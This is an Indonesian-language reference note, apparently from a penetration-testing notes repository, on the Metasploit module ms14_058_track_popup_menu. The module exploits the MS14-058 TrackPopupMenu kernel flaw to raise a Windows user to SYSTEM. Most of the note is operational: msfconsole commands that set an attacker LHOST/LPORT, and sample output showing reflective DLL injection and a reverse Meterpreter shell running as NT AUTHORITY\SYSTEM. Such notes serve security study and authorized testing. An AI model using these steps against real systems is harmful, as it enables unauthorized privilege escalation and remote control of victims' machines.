 # ms14_058_track_popup_menu

Modul `ms14_058_track_popup_menu` di Metasploit adalah modul `exploit local` untuk sistem Windows yang memanfaatkan kerentanan dalam fungsi `TrackPopupMenu` pada kernel (`MS14-058`), memungkinkan eskalasi hak akses dari user biasa ke `SYSTEM` dengan menjalankan kode arbitrer di tingkat kernel.

## Cara Penggunaan di Metasploit

```
use exploit/windows/local/ms14_058_track_popup_menu'
set PAYLOAD <PAYLOAD>
set SESSION <ID>
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[*] win32k.sys file version: 6.1.7601.17514 branch: 17
[*] Reflectively injecting the exploit DLL and triggering the exploit...
[*] Launching msiexec to host the DLL...
[+] Process 4352 launched.
[*] Reflectively injecting the DLL into 4352...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (177734 bytes) to 192.168.1.53
[*] Meterpreter session 15 opened (192.168.1.11:4444 -> 192.168.1.53:49162) at 2025-05-17 05:58:24 +0700

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```
